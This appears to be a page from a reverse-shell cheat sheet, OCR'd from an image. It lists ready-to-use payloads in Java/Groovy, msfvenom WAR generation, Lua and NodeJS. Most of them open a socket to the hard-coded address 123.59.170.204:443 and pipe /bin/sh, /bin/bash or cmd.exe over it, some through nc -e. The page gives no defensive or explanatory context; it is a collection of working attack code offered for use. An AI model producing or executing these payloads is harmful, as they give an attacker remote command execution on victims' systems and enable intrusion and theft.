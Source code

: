 Java:
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/123.59.170.204/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
------------------------
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
------------------------
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();

War:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=123.59.170.204 LPORT=443 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
------------------------

Lua:
Linux only
lua -e "require('socket');require('os');t=socket.tcp();t:connect('123.59.170.204','443');os.execute('/bin/sh -i <&3 >&3 2>&3');"
------------------------
Windows and Linux
lua5.1 -e 'local host, port = "123.59.170.204", 443 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
------------------------

NodeJS:
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "123.59.170.204", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
------------------------
require('child_process').exec('nc -e /bin/sh 123.59.170.204 443')
------------------------
-var x = global.process.mainModule.require
-x('child_process').exec('nc 123.59.170.204 443 -e /bin/bash')
------------------------
https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
------------------------
